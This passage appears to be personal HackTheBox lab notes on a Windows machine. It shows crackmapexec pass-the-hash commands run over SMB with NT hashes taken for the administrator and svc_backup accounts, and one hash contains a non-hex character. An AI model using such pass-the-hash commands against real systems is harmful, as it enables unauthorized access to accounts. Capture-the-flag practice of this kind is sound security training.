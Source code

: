 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110191315.png)
Grab NT hashes for `svc_backup` and `administrator` and pop into credentials file. 

![](Pasted%20image%2020250110191447.png)
Try #crackmapexec with administrator's NT hash. 

`cme smb 10.10.10.192 -u administrator -H 7fle4ff8c6a8e6b6fcae2d9c0572cd62 `

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110191643.png)

It fails. 

Trying other user

```
cme smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110191756.png)
